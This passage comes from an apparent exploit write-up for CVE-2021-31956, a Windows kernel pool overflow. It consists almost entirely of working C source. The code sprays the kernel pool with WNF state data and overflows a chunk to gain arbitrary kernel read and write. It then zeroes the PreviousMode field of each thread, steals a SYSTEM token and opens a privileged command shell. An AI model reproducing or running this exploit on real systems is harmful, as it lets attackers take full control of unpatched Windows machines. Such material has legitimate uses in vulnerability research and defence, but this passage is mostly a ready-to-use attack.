        handle_info,
        handle_info_sz,
        NULL)) == STATUS_INFO_LENGTH_MISMATCH) {

        handle_info = realloc(handle_info, handle_info_sz *= 2);
        if (!handle_info) {
            log_warn("get_eproc::realloc()1");
            status = STATUS_NO_MEMORY;
            goto out;
        }
    }

    if (!NT_SUCCESS(status)) {
        log_warn("get_eproc::NtQuerySystemInformation()1");
        goto out;
    }

    printf("[+] Fetched %ld handles\n", handle_info->NumberOfHandles);

    for (int i = 0; i < handle_info->NumberOfHandles; i++)
        if (handle_info->Handles[i].dwProcessId == GetCurrentProcessId() && handle_info->Handles[i].wValue == current_proc) {
            status = STATUS_SUCCESS;
            printf("[+] _EPROCESS of current process: %p\n", handle_info->Handles[i].pAddress);
            *eproc = (ULONG_PTR)handle_info->Handles[i].pAddress;
            free(handle_info);
            goto out;
        }

out:
    CloseHandle(current_proc);

    return status;
}
```

## The create_cmd Function

[Return to Top](./CVE-2021-31956.md)

```cpp
NTSTATUS create_cmd(void)
{
    char                    cmdl[] = "C:\\Windows\\System32\\cmd.exe";
    STARTUPINFOA            si = { 0 };
    PROCESS_INFORMATION     pi = { 0 };
    BOOL                    res;
    NTSTATUS                status = STATUS_SUCCESS;

    si.cb = sizeof(STARTUPINFOA);

    res = CreateProcessA(
        cmdl, NULL, NULL, NULL, FALSE,
        CREATE_NEW_CONSOLE, NULL, NULL,
        &si, &pi
    );

    if (!res) {
        log_warn("create_cmd::CreateProcessA()1");
        status = STATUS_UNSUCCESSFUL;
        goto out;
    }

    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);

out:
    return status;
}
```

## The resolve_symbols Function

[Return to Top](./CVE-2021-31956.md)

```cpp
NTSTATUS resolve_symbols(void)
{
    NTSTATUS    status = STATUS_SUCCESS;
    HMODULE     ntdll = NULL, tmp = NULL;

    puts("[+] Resolving internal functions...");

    ntdll = ((tmp = GetModuleHandleA("ntdll.dll")) ? tmp : LoadLibraryA("ntdll.dll"));
    if (ntdll == NULL) {
        log_warn("resolve_symbols::LoadLibraryA()1");
        status = STATUS_NOT_FOUND;
        goto out;
    }

    _NtQuerySystemInformation = (NQSI)GetProcAddress(ntdll, "NtQuerySystemInformation");
    _NtQueryEaFile = (NQEF)GetProcAddress(ntdll, "NtQueryEaFile");
    _NtSetEaFile = (NQSI)GetProcAddress(ntdll, "NtSetEaFile");
    _NtCreateWnfStateName = (NCWSN)GetProcAddress(ntdll, "NtCreateWnfStateName");
    _NtUpdateWnfStateData = (NUWSD)GetProcAddress(ntdll, "NtUpdateWnfStateData");
    _NtDeleteWnfStateName = (NDWSN)GetProcAddress(ntdll, "NtDeleteWnfStateName");
    _NtDeleteWnfStateData = (NDWSD)GetProcAddress(ntdll, "NtDeleteWnfStateData");
    _NtQueryWnfStateData = (NQWSD)GetProcAddress(ntdll, "NtQueryWnfStateData");
    _NtReadVirtualMemory = (NRVM)GetProcAddress(ntdll, "NtReadVirtualMemory");
    _NtWriteVirtualMemory = (NWVM)GetProcAddress(ntdll, "NtWriteVirtualMemory");

    if (!_NtQuerySystemInformation || !_NtQueryEaFile || !_NtSetEaFile ||
        !_NtCreateWnfStateName || !_NtUpdateWnfStateData || !_NtDeleteWnfStateName ||
        !_NtDeleteWnfStateData || !_NtQueryWnfStateData || !_NtReadVirtualMemory || !_NtWriteVirtualMemory) {
        log_warn("resolve_symbols::GetProcAddress()1");
        status = STATUS_NOT_FOUND;
        goto out;
    }

    puts("[+] All functions resolved");

out:
    return status;
}
```

## The main Function

[Return to Top](./CVE-2021-31956.md)

```cpp
int main(void)
{
    ULONG_PTR               own_eproc = 0;
    PWNF_STATE_NAME         statenames = zalloc(SPRAY_COUNT * sizeof(WNF_STATE_NAME));
    char                    buf[0xa0] = { 0 };
    ULONG                   buf_sz = sizeof(buf);
    ULONG                   overflow_idx = 0;
    char                    *read_data = zalloc(0x5000);
    char                    *write_data = zalloc(0x5000);
    ULONG                   read_data_sz = 0x5000;
    ULONG                   write_data_sz = 0x5000;
    PWNF_NAME_INSTANCE      arbwrite_name = NULL;
    UINT64                  ext_statename = 0;
    ULONG                   fix_size = 0;
    WNF_CHANGE_STAMP        stamp = 0;
    ULONG_PTR               kthread_flink = 0;
    char                    prev_mode[3] = { 0 };
    char                    old_prev_mode[3] = "\x00\x00\x01";
    PEPROCESS               own_eproc_obj = NULL;
    ULONG_PTR               kthreads[MAX_THREAD_SEARCH] = { 0 };
    ULONG_PTR               threadlisthead = 0;
    PWNF_PROCESS_CONTEXT    ctx = NULL;
    
    if (!statenames || !read_data || !write_data) {
        log_warn("main::zalloc()1");
        goto out;
    }

    if (!NT_SUCCESS(resolve_symbols()))
        goto out;

    if (!NT_SUCCESS(get_eproc(&own_eproc)))
        goto out;

    if (!NT_SUCCESS(spray_heap(statenames, SPRAY_COUNT, &buf, sizeof(buf))))
        goto out;

    if (!NT_SUCCESS(fragment_heap(statenames, SPRAY_COUNT)))
        goto out;

    if (!NT_SUCCESS(overflow_chunk(OVERFLOW_SZ, OVERFLOW_DATA, OVERFLOW_SZ)))
        goto out;

    while (!NT_SUCCESS(find_chunk(statenames, SPRAY_COUNT, &buf, &buf_sz, &overflow_idx)))
        if (!NT_SUCCESS(overflow_chunk(OVERFLOW_SZ, OVERFLOW_DATA, OVERFLOW_SZ)))
            goto out;

    buf_sz = sizeof(buf);

    if (!NT_SUCCESS(read_pool(statenames, overflow_idx, read_data, &read_data_sz)))
        goto out;

    read_data_sz = 0x5000;
    memcpy(write_data, read_data, 0x5000);

    for (int i = 0; i < 0x5000; i++)
        if ((unsigned char)read_data[i] == 0x03 && (unsigned char)read_data[i + 1] == 0x09 && (unsigned char)read_data[i + 2] == 0xa8) {
            arbwrite_name = (PWNF_NAME_INSTANCE)(&write_data[i]);
            printf("[+] Found a WNF_NAME_INSTANCE structure at offset %x to our corrupted WNF_STATE_DATA\n", i);
            fix_size = i + 0x60;
            break;
        }

    if (!arbwrite_name) {
        log_warn("No WNF_NAME_INSTANCE near our corrupted WNF_STATE_DATA, probably not exploitable");
        goto out;
    }
     
    threadlisthead = (ULONG_PTR)((ULONG_PTR)own_eproc + (ULONG_PTR)0x30);
    arbwrite_name->StateData = threadlisthead;
    
    if (!NT_SUCCESS(write_pool(statenames, overflow_idx, write_data, fix_size)))
        goto out;

    ext_statename = *(PULONGLONG)&(arbwrite_name->StateName) ^ STATENAME_CONST;

    _NtQueryWnfStateData((WNF_STATE_NAME *)&ext_statename, NULL, NULL, &stamp, write_data, &write_data_sz); // this call will fail, so we don't error check
    
    kthread_flink = (UINT64)stamp << 32 | (UINT32)write_data_sz;
    write_data_sz = 0x5000;
    memcpy(write_data, read_data, 0x5000);

    kthreads[0] = (UINT64)kthread_flink - (UINT64)0x2f8;
    if ((UINT64)kthreads[0] < 0xFFFF800000000000) {
        log_warn("Fail to find _KTHREAD in memory");
        goto out;
    }

    printf("[+] Found _KTHREAD 1 at %p\n", kthreads[0]);

    for (int i = 1; i < MAX_THREAD_SEARCH; i++) {
        arbwrite_name->StateData = kthread_flink; // find next kthread

        if (!NT_SUCCESS(write_pool(statenames, overflow_idx, write_data, fix_size)))
            goto out;

        ext_statename = *(PULONGLONG) & (arbwrite_name->StateName) ^ STATENAME_CONST;

        _NtQueryWnfStateData((WNF_STATE_NAME *)&ext_statename, NULL, NULL, &stamp, write_data, &write_data_sz); // this call will fail, so we don't error check

        kthread_flink = (UINT64)stamp << 32 | (UINT32)write_data_sz;
        if ((UINT64)kthread_flink == (UINT64)threadlisthead)
            break;

        write_data_sz = 0x5000;
        memcpy(write_data, read_data, 0x5000);

        kthreads[i] = (UINT64)kthread_flink - (UINT64)0x2f8;
        if ((UINT64)kthreads[i] < 0xFFFF800000000000) {
            log_warn("Fail to find _KTHREAD in memory");
            goto out;
        }

        printf("[+] Found _KTHREAD %d at %p\n", i+1, kthreads[i]);
    }
    
    for (int i = 0; i < MAX_THREAD_SEARCH; i++) {
        if (kthreads[i] == 0)
            break;

        arbwrite_name->StateData = (UINT64)kthreads[i] + 0x220; // kthread.Process

        if (!NT_SUCCESS(write_pool(statenames, overflow_idx, write_data, fix_size)))
            goto out;

        write_data_sz = 0x5000;
        memcpy(write_data, read_data, 0x5000);

        ext_statename = *(PULONGLONG)&(arbwrite_name->StateName) ^ STATENAME_CONST;
        if (!NT_SUCCESS(_NtUpdateWnfStateData((WNF_STATE_NAME *)&ext_statename, prev_mode, 0x3, NULL, NULL, 0, 0))) {
            log_warn("main::_NtUpdateWnfStateData()1");
            goto out;
        }

        printf("[+] Overwritten PreviousMode of _KTHREAD %d to 0\n", i+1);
    }
    

    own_eproc_obj = (PEPROCESS)own_eproc;

    if (!NT_SUCCESS(steal_token(own_eproc_obj)))
        goto out;

    ctx = read64(&(own_eproc_obj->WnfContext));

    if (!NT_SUCCESS(fix_runrefs(ctx)))
        goto out;

    for (int i = 0; i < MAX_THREAD_SEARCH; i++) {
        if (kthreads[i] == 0)
            break;

        arbwrite_name->StateData = (UINT64)kthreads[i] + 0x220; // kthread.Process

        if (!NT_SUCCESS(write_pool(statenames, overflow_idx, write_data, fix_size)))
            goto out;

        write_data_sz = 0x5000;
        memcpy(write_data, read_data, 0x5000);

        ext_statename = *(PULONGLONG) & (arbwrite_name->StateName) ^ STATENAME_CONST;
        if (!NT_SUCCESS(_NtUpdateWnfStateData((WNF_STATE_NAME *)&ext_statename, old_prev_mode, 0x3, NULL, NULL, 0, 0))) {
            log_warn("main::_NtUpdateWnfStateData()1");
            goto out;
        }

        printf("[+] Restored PreviousMode of _KTHREAD %d to 1\n", i + 1);
    }

    if (!NT_SUCCESS(write_pool(statenames, overflow_idx, read_data, fix_size)))
        goto out;

    puts("[+] Restored corrupted adjacent WNF_NAME_INSTANCE");

    if (NT_SUCCESS(create_cmd()))
        puts("[+] Enjoy system shell");

out:
    if (statenames)
        free(statenames);

    if (read_data)
        free(read_data);

    if (write_data)
        free(write_data);

    return 0;
}
```
